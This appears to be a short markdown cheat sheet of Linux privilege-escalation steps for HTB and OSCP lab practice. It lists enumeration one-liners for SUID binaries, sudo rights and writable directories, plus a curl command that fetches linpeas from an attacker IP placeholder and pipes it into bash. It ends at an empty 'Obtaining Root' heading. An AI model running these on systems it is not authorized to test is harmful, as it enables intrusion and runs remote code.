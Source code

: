 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc

### One-Liners

Run the following one-liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.
- `find / -writable -type d 2>/dev/null` == Locate files you have write access to.

These commands will find the majority of privesc vectors on HTB and OSCP. There is more commands you should try if these don't work but I usually head to linpeas after these.

### Linpeas

Linpeas is a bit outdated but is still effective at finding attack vectors.

`curl -sL http://<myip>/linpeas.sh | bash`

It is important to carefully read over the output, even the output that linpeas doesn't highlight red.

### Furthur Enumeration

If the `one-liners` **AND** `linpeas` didn't find anything useful, the answer is probably very simple. You most likely just need to like into the files you have read access too. This includes things like:

- Web config files and source code.
- Files in your users home directory.
- Application version exploit *OR* Linux kernel exploit.

If none of the above worked or showed anything interesting, restart from the top, you probably missed something.

## Obtaining Root
